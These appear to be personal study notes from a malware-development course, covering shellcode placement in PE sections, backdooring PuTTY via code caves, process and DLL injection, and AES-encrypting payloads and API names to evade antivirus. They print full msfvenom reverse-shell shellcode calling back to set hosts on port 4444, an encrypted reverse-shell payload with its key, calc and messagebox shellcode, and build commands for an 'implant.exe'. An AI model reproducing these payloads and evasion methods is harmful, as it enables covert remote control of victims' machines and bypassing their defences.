


Hasherzade - creates really interesting tools.

6 different section -

.text

.rdata

.data

.pdata

.rsrc

.reloc


dumpbin in windows also performs the same activity as the metadata

 headers - metadata
 section - content of PE

we can make dll through clang
`
//cl.exe /D_USRDLL /D_WINDLL stand_in_app.cpp /MT /link /DLL /OUT:implant.dll`

### places to put your payload

in order to put shellcode in text section we need to put it in someplace like `.text` section that is the main program.

to put it in data we need to tell the compiler that `.shellcode` is read only memory

to put in `.rsrc` section,  we need to use certain api calls to call the shellcoden 

### putting payload in  data section

our variable ended in the data section because we delared it as a global variable.


looking at the address
38a000 addr of payload
7d0000 exec memory address

### putting into text section

you need to put your payload inside main itself.

addr of payload      : 0x006FFB8C
exec_mem addr        : 0x00740000

Hit me!

after changin it ot (voiid *)

addr of payload      : 0x0113FDE8
exec_mem addr        : 0x01160000

Address  Data       
00940001 90 90 CC C3
00B63019 90 90 CC C3


looking at all addresses we got

```cpp
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n",  "addr of void * payload", (void *)payload);
	printf("%-20s : 0x%-016p\n", "payload & addr", &payload);
	printf("%-20s : 0x%-016p\n", "payload addr", payload);

	printf("%-20s : 0x%-016p\n", "exec_mem void * addr", (void *)exec_mem);
	printf("%-20s : 0x%-016p\n", "exec_mem  addr", exec_mem);
	printf("%-20s : 0x%-016p\n", "exec_mem &  addr", &exec_mem);

```
   
```
addr of void * payload : 0x009EF7F8
payload & addr       : 0x009EF7F8
payload addr         : 0x009EF7F8
exec_mem void * addr : 0x00D40000
exec_mem  addr       : 0x00D40000
exec_mem &  addr     : 0x009EF7F0

Hit me!
```

compile bat -

compiling
```
@ECHO OFF
rc resources.rc
cvtres /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

resources section
``
#include "resources.h"

FAVICON_ICO RCDATA calc.ico

```

resources.h - `#define calc_ico 100`

create a calc.ico - calc.ico has execuatable code for meterpreter in calc.exe.

The shellcode ot spawn calc.exe - `msfvenom -p windows/exec CMD=calc.exe -b "x00" -f py`

### video 15

```
//from https://packetstormsecurity.com/files/156478/Windows-x86-Null-Free-WinExec-Calc.exe-Shellcode.html

char shellcode[] =
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"

```

In video 15 we are trying to write our own vutual protect function in order to make it work.

ciphertext for VirtualProtect - `{ 0x17, 0x2b, 0x31, 0x30, 0x30, 0x27, 0x2b, 0x18, 0x3b, 0x25, 0x3f, 0x29, 0x2e, 0x3a };`

### video 16

backdooring PE files - patching

methods -
 code cave, new section and extending section in code itself.

### video 17

fully done in 
backdooring putty -

attach the exe to the debugger and look in text section for empty spaces like 000

for 32 bit putty:

002D5CA | E8 9A020000              | call putty.2D5F3F                       |

code cave address : 0x62197D34

002D5F3 | 8B0D 74103200            | mov ecx,dword ptr ds:[321074]           | ecx:EntryPoint
002D5F4 | 56                       | push esi                                | esi:EntryPoint
002D5F4 | 57                       | push edi                                | edi:EntryPoint
002D5F4 | BF 4EE640BB              | mov edi,BB40E64E                        | edi:EntryPoint
002D5F4 | BE 0000FFFF              | mov esi,FFFF0000                        | esi:EntryPoint
002D5F5 | 3BCF                     | cmp ecx,edi                             | ecx:EntryPoint, edi:EntryPoint
002D5F5 | 74 04                    | je putty.2D5F59                         |
002D5F5 | 85CE                     | test esi,ecx                            | esi:EntryPoint, ecx:EntryPoint
002D5F5 | 75 26                    | jne putty.2D5F7F                        |

code to bring up calculator in x86

`\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0`

call that brings up calculator - 62197DE | E8 87FFFFFF              | call comctl32.62197D7B                  |

it is not working th epatching is not happening properly for the executed program, even after saving patches calculator is not called.
need to try it in the ovf tommorrow.

### video 18

code injection

from our process we put the shellcode in some target process like explorer.exe 

you allocate memory and then execute shellcode.

### video 18a

why do we need to inject a process

1. because initial acccess would be short lived

2. we need redundant connections

3. change the context is essential

Classic methods for shellcode

1. shellcode injection

2. injection of a DLL from a disk

### video 19

code inject payload example

getting the shellcode to open messagebox - https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/

```
└─$ msfvenom -p windows/messagebox ICON="WARNING" TEXT="Hello there" TITLE="General Kenobi:" -f c -a x86                 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 268 bytes
Final size of c file: 1150 bytes
unsigned char buf[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x62\x69\x3a\x58\x68\x4b\x65"
"\x6e\x6f\x68\x72\x61\x6c\x20\x68\x47\x65\x6e\x65\x31\xdb\x88"
"\x5c\x24\x0f\x89\xe3\x68\x65\x72\x65\x58\x68\x6f\x20\x74\x68"
"\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24\x0b\x89\xe1\x31\xd2"
"\x6a\x30\x53\x51\x52\xff\xd0\x31\xc0\x50\xff\x55\x08";
```

this is the shellcode to open reverse shell

```
┌──(misthios㉿kali)-[~]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.6.221 LPORT=4444 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of c file: 1386 bytes
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x06\xdd\x68"
"\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

```

compile.dat used - `cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG stand_in.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64`

3. `process_injection_self_written.c` not working - the reason it was not working was because i was trying to inject a 64 bit notepad with a 64 bit comipler.
 
 now on calling create remotethread caclc is exiting.
 

### process injection

able to get calc from nslookup




### video 20

Explains DLL injecction we will load the path to the DLL and then load the DLL into memory.

### video 21

Get loadlibrary address from dropper.exe with GetProcAddress
VirtualALLocEx in outlook.exe
WriteProcessMemory with path to DLL
CreateRemoteThread with an address f lOadlibrary and path to DLL

for this we need two things - code to be injected 
and code that injects

## AES encryption works with only python 2.7 because of the way file oprations are handled.

aes only injecting into shellcode

```
192.168.203.129
─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.203.129 LPORT=4444 EXITFUNC=thread -f raw > payload.bin                                                                                                                      2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

```

```
char key[] = { 0x50, 0x9d, 0x54, 0xe3, 0x35, 0x18, 0x93, 0x6, 0xcf, 0x5, 0x92, 0xfe, 0xbf, 0x2d, 0x3f, 0x7f };
char unsigned payload[] = { 0xd5, 0x14, 0xa4, 0x2c, 0x35, 0x53, 0x68, 0x54, 0x3a, 0xb9, 0x1b, 0x9e, 0xce, 0xb, 0x63, 0xff, 0x30, 0xa6, 0xf2, 0x3d, 0x72, 0xc7, 0x3f, 0x78, 0x5f, 0x7f, 0x79, 0x7a, 0xa9, 0xe4, 0x59, 0x5, 0xb, 0x2c, 0x84, 0xaf, 0xce, 0xfc, 0x69, 0x38, 0xa3, 0x83, 0x1d, 0x38, 0x14, 0xd9, 0xb3, 0x68, 0x4b, 0x39, 0x1a, 0xb4, 0x8a, 0x59, 0x6, 0x6c, 0x9b, 0x71, 0xc7, 0x2e, 0xac, 0xec, 0x65, 0xd9, 0x1b, 0x4e, 0x3c, 0x57, 0xff, 0xb4, 0x19, 0x5e, 0x74, 0x26, 0x57, 0x87, 0x3d, 0xf3, 0xe9, 0x12, 0x4a, 0x5c, 0x9b, 0xe1, 0x26, 0x3d, 0xca, 0x45, 0xb, 0xb5, 0x68, 0x97, 0xb6, 0x6, 0x1e, 0x83, 0x72, 0x1c, 0x1b, 0xf4, 0x17, 0xd8, 0xe5, 0xd1, 0xda, 0xa, 0xc, 0x6c, 0x90, 0x8f, 0xd8, 0xe0, 0x66, 0xe8, 0xfa, 0xa4, 0xfb, 0x5f, 0x72, 0x70, 0x2a, 0xf6, 0xf1, 0x6f, 0x85, 0x2d, 0x9, 0xf9, 0x32, 0x6d, 0xc4, 0x55, 0x1c, 0xc6, 0x17, 0x9e, 0xac, 0x6a, 0xa3, 0xc, 0xa5, 0x41, 0xb9, 0x82, 0xa0, 0x23, 0xb3, 0xa1, 0x58, 0x5a, 0xe3, 0xec, 0x58, 0xd4, 0x3c, 0xa9, 0xe6, 0x6a, 0xc5, 0xbd, 0x84, 0xa0, 0xe4, 0x9d, 0x9c, 0x9b, 0x9f, 0xfb, 0xfd, 0xbe, 0x9e, 0xe2, 0x4d, 0x59, 0x67, 0x88, 0x7c, 0xc9, 0x9d, 0xdb, 0xce, 0xed, 0xe0, 0x74, 0xf4, 0xda, 0x4, 0xaf, 0xfb, 0xc4, 0x89, 0x55, 0xe2, 0x94, 0x2c, 0x9d, 0xa7, 0x9d, 0x0, 0x83, 0x7d, 0x55, 0x37, 0xba, 0xe8, 0xb6, 0xe1, 0x4, 0x4a, 0xe5, 0xc4, 0xcf, 0x7d, 0x52, 0x48, 0x28, 0x14, 0x77, 0x9a, 0xab, 0x61, 0xbb, 0xa, 0x76, 0x19, 0x23, 0x5d, 0xdd, 0xa2, 0xa, 0xb0, 0x29, 0xc5, 0xeb, 0x3c, 0xeb, 0x5a, 0xbd, 0x48, 0x3c, 0xb2, 0x2, 0x31, 0x8b, 0xda, 0x79, 0x84, 0x3c, 0x74, 0x2, 0xba, 0x4, 0xc0, 0x81, 0xe9, 0x3d, 0xed, 0x7, 0xf9, 0x46, 0xc3, 0x83, 0xc5, 0xc0, 0xb7, 0xa9, 0xee, 0xac, 0xf2, 0xe7, 0x5f, 0x23, 0xc, 0x62, 0x38, 0x48, 0xba, 0xe5, 0x24, 0x78, 0x26, 0x1e, 0x85, 0x17, 0xe2, 0x12, 0x54, 0x6c, 0x20, 0x46, 0xe8, 0x61, 0x26, 0xf, 0x4b, 0x6c, 0xdf, 0xbe, 0x97, 0xe5, 0xf3, 0x5e, 0x73, 0x74, 0x73, 0xe6, 0xde, 0xd, 0xbb, 0xa4, 0x55, 0x8f, 0x99, 0xe5, 0x11, 0x19, 0xda, 0xbe, 0x17, 0x17, 0x7f, 0xfd, 0x29, 0xd6, 0xbc, 0xd6, 0xa6, 0x8d, 0x1e, 0x41, 0x9a, 0x1f, 0x9a, 0x5a, 0x9b, 0x37, 0xe, 0x83, 0x4c, 0x28, 0x18, 0xda, 0x7c, 0xbd, 0xd8, 0x73, 0x3a, 0xb9, 0xd7, 0x7f, 0x98, 0x8a, 0xca, 0x90, 0x55, 0x71, 0x45, 0x13, 0x70, 0x7b, 0xb8, 0xfd, 0x8b, 0xdc, 0xf0, 0x88, 0x62, 0x3d, 0x8e, 0x96, 0xf8, 0x51, 0xe7, 0x6, 0xa5, 0x81, 0x47, 0xc8, 0x61, 0xc9, 0xf1, 0x2e, 0x6c, 0x76, 0x38, 0xa5, 0xe8, 0x5, 0x1a, 0x86, 0x15, 0x2d, 0xd6, 0x43, 0xf4, 0x41, 0x64, 0xbe, 0x19, 0xf3, 0x50, 0x2d, 0xe7, 0xf3, 0x20, 0x76, 0x21, 0x31, 0x8b, 0x7c, 0x2c, 0xe8, 0x10, 0x9b, 0xc1, 0xc, 0xbc, 0xd8, 0xf6, 0x22, 0x3c, 0x58, 0x0, 0xec, 0xdc, 0xda, 0x50, 0x2, 0x4, 0x87, 0x20, 0x6a, 0x84, 0xba, 0x69, 0x4, 0xf1, 0x58, 0x46, 0x50, 0xb7, 0x83, 0xd5, 0x1e, 0x44, 0xdd, 0xf2, 0x93, 0xab, 0xf2, 0xd, 0xe5, 0x2a, 0x4, 0xb5, 0x8, 0x90, 0x2f, 0x50, 0xe5, 0x1e, 0xcc, 0xa2, 0x87 };
char unsigned cipher_vProtect[] = { 0x99, 0xef, 0x4f, 0x88, 0x47, 0x18, 0xef, 0xe3, 0x99, 0xde, 0xc7, 0x78, 0x88, 0x8b, 0xb9, 0x80 };
char unsigned cipher_vAlloc[] = { 0xf0, 0xe5, 0xef, 0xb9, 0xe, 0x27, 0xec, 0x3c, 0x14, 0x79, 0x31, 0x78, 0xf, 0xf7, 0x67, 0x27 };
char unsigned cipher_rMoveMemory[] = { 0x60, 0xc9, 0x24, 0x17, 0x11, 0xb9, 0xa6, 0x93, 0xa0, 0x27, 0x25, 0xfb, 0x8f, 0xec, 0x8e, 0x27 };

````



# doing something that combines all payloads

1. create custom functions for all of em.

: 192.168.203.136
192.168.203.129  


# Things to learn and do

1. How to eliminate null characters from shellcode.
2. How to integrate all for complete evasion.

4. signing through metatwin and carboncopy - for signature

not getting the same error now.

tried adding injection but notepad simply exits.

now notepad doesnt exist however it is still not calling th evalid shellcode to the other side.

not able to do process injection with 64 bit program.

The error was sbecause of visual studio error.
https://stackoverflow.com/questions/3563756/fatal-error-lnk1112-module-machine-type-x64-conflicts-with-target-machine-typ

Still unresolved.

So alternatively used the cl.exe independently of visual studio.

trying to manipulate strings presently.

https://www.varonis.com/blog/windows-defender-turned-off-by-group-policy